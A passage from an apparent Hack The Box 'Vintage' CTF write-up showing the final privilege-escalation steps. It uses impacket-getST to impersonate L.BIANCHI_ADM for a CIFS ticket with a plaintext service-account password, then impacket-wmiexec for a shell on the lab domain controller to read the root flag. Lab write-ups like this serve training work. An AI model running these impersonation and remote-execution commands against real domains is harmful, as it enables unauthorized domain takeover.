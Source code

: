 Impersonate L.BIANCHI_ADM user to request `cifs/dc01.vintage.htb`a service ticket for the service. After successfully obtaining the ticket, you can use it to access the service.
```sh
impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate L.BIANCHI_ADM -dc-ip 10.10.11.45 -k 'vintage.htb/svc_sql:Zer0the0ne'  

export KRB5CCNAME=L.BIANCHI_ADM@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```



---
## Root flag
Now that we have L.BIANCHI's ticket, we can directly execute the command through wmiexec
```sh
impacket-wmiexec -k -no-pass VINTAGE.HTB/L.BIANCHI_ADM@dc01.vintage.htb 

Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\> whoami
vintage\l.bianchi_adm
C:\> type Users\Administrator\Desktop\root.txt
```


